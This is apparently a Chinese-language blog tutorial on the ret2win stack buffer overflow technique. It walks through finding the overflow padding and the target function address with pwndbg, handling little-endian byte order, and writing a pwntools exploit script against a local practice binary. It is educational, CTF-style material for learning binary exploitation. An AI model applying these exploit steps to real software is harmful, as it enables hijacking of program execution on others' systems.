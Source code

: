 ```yaml
---
title: 'ret2win'
date: '2023-08-07'
lastmod: '2023-08-30'
tags: ['PWN', 'Stack']
draft: false
summary: '最基本的二进制漏洞利用'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

**ret2win** 中有一个 `win()` 函数（或等效函数）；一旦你成功地将执行重定向到那里，你就完成了挑战。

为了实现这一点，我们必须覆盖 EIP，但覆盖成我们想要的特定值。

为此，我们需要知道：

- 直到我们开始覆盖返回地址（EIP）为止的 `溢出 Padding`
- 我们想要将 EIP 覆盖成什么值

<Warning>
  当我说「覆盖 EIP」时，我的意思是覆盖压入到 EIP 中的已保存的返回地址。EIP 寄存器 并不位于栈上，因此不会被直接覆盖。
</Warning>

LINK

## 0x01 计算溢出 Padding

这可以通过简单的试验和错误找到。我们可以发送可变数量的字符，将 `Segmentation Fault` 消息和 pwndbg 结合使用，来判断我们何时覆盖了 EIP 。有一种比简单的暴力破解更好的方法：[德布鲁因（De Bruijn）序列](https://www.cubeyond.net/de-bruijn-sequences/)，为了方便起见，现在我们直接使用已经计算出的溢出 Padding。

<Note>
  除了覆盖 EIP 之外，还可能会因其他原因而出现分段错误。使用调试器确保 `溢出 Padding` 正确。
</Note>

这里的溢出 Padding 为 52 字节的偏移量。

## 0x02 确定 flag() 函数地址

现在我们需要在二进制文件中找到 `flag()` 函数的地址，这很简单：

```
$ pwndbg vuln
$ i fun
[...]
0x080491c3  flag
[...]
```

<Note>
  `i fun` 代表 **i**nfo **f**unction，可以列出分析中发现的函数。
</Note>

可以看到这里的 `flag()` 函数位于 `0x080491c3`。

## 0x03 编写地址

最后一个难题是弄清楚如何发送我们想要的地址。在 [二进制漏洞利用简介](https://www.cubeyond.net/stack-introduction/)中，我们发送的 `A` 变成了 `0x41` —— 这是 `A` 的 `ASCII 码`。所以解决方案很简单——我们只要找到 `ASCII` 码为 `0x08`、`0x04`、`0x91` 和 `0xc3` 的字符即可。

这比你想象的要简单得多，因为我们可以在 Python 中将它们指定为十六进制。

```python
address = '\x08\x04\x91\xc3'
```

这使得事情变得容易得多。

<Tip>
  使用 `xxd` 可以以二进制或十六进制显示文件的内容：

  $ echo '\x41\x41\x41\x41' | xxd<br />
  00000000: 4141 4141 0a        AAAA.

  $ echo 'AAAA' | xxd<br />
  00000000: 4141 4141 0a        AAAA.
</Tip>

## 0x04 编写漏洞利用脚本

现在我们知道了溢出 Padding 和想要覆盖的值，我们可以使用 [pwntools](https://github.com/Gallopsled/pwntools) 与二进制文件交互，编写漏洞利用脚本。

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# 创建一个新进程
p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

# 输出「Exploited!」字符串则说明我们成功了
p.sendline(payload)

p.interactive()
```

如果你直接运行上面的脚本，就会发现一个小问题：它没有输出 `Exploited`。为什么？我们可以用调试器来检查一下。添加 hook `pwndbg` 的代码，以及 `pause()`，以便我们可以在想发送 `payload` 的时候发送 `payload` 。

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.terminal = ['alacritty', '-e']

p = process('./vuln')

# 下面这条指令可以在启动 pwndbg 后自动下断点
# 为了调试程序的问题，我们在 `unsafe` 的 ret 指令返回时设断点
gdb.attach(p, 'b *0x080491aa')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

pause()
p.sendline(payload)

p.interactive()
```

现在让我们使用 `python exp.py` 运行该脚本，它将自动打开一个 `pwndbg` 窗口：

让我们在 `unsafe()` 返回时中断并读取返回地址的值：

```
$ disass unsafe
$ c

<< press any button on the exploit terminal interface >>

$ x/20wx $esp
0xffffd7dc:	0xc3910408
[...]
```

`0xc3910408`，看起来熟悉吗？这是我们试图发送的地址，只不过字节顺序被反转了，而这种反转的原因是 [字节顺序](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F) 使用大端序的系统将最高有效字节（具有最大值的字节）存储在最小的内存地址处，这就是我们发送它们的方式。使用小端序的系统的做法恰恰相反，这是有 [原因](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format) 的，并且我们遇到的大多数二进制文件都是小端序的。就我们而言，只要知道字节在使用小端序的可执行文件中 *payload 以相反的顺序存储* 就可以了。

## 0x05 确定字节顺序

`pwntools` 附带了一个名为 `checksec` 的工具，用于二进制分析。我们可以直接在 `pwndbg` 中使用这条指令。

```
$ checksec
[...]
Arch:     i386-32-little
[...]
```

因此可以确定，我们的程序是 32-bit 小端序的。

## 0x06 反转字节顺序

解决方法很简单：反转字节序

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

如果你现在运行它，它将成功输出 `Exploited!`：

```
$ python exp.py
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 9645
[DEBUG] Sent 0x39 bytes:
[...]
[*] Switching to interactive mode
[DEBUG] Received 0x1b bytes:
[...]
Overflow me
Exploited!!!!!
```

我们已经成功改变了程序的执行流程，调用了 `flag()` 函数！

## 0x07 Pwntools 和 字节顺序

毫不奇怪，你并不是第一个想到「能否使字节顺序书写变得更简单」的人。幸运的是，`pwntools` 有一个内置的 `p32()` 函数可供使用！

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

改为：

```python
payload += p32(0x080491c3)
```

这样就简单多了。唯一需要注意的是它返回字节而不是字符串，因此你必须将溢出 Padding 设置为字节字符串：

```python
payload = b'A' * 52  # 注意 "b"
```

否则你会得到一个这样的报错：

```
TypeError: can only concatenate str (not "bytes") to str
```

## 0x08 最终的 Exploit 脚本

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = process('./vuln')

payload = b'A' * 52
payload += p32(0x080491c3)

p.sendline(payload)

p.interactive()
```

